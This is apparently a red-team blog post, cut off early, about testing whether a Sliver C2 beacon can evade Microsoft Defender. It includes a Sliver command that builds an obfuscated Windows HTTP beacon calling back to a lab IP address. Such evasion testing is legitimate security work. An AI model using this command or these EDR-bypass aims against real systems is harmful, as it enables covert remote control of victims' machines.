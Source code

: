 ```yaml
---
layout: single
title: "Breaking into Windows: Attempting to bypass EDR with Sliver"
excerpt: "How well does Microsoft Defender defend against a modified Sliver implant? I intend to answer that question by using common techniques used to bypass EDR to evaluate its detection and response capabilities under realistic attack scenarios."
date: 2024-05-28
header:
  teaser: /assets/images/BrokenWindows.png
  teaser_home_page: true
categories:
  - pentesting
tags:
  - pentesting
  - Bypass EDR
  - tools
---
```


![](/assets/images/BrokenWindows.png#center)

## Background

Sliver C2 is a pretty awesome alternative to metasploit developed by Bishop Fox:

> Sliver is an open source cross-platform adversary emulation/red team framework, it can be used by organizations of all sizes to perform security testing. Sliver's implants support C2 over Mutual TLS (mTLS), WireGuard, HTTP(S), and DNS and are dynamically compiled with per-binary asymmetric encryption keys.

You can create both a beacon and an implant.
Im going to be using a beacon as it is alot stelthier:
    
    $ sliver > generate beacon --http 192.168.56.1 --os windows --arch amd64 --format exe
    
    [*] Generating new windows/amd64 beacon implant binary (1m0s)
    [*] Symbol obfuscation is enabled
    [*] Build completed in 16s
    [*] Implant saved to /home/cleck/MODERN_MIDWIFE.exe

If we throw this into virus total we get: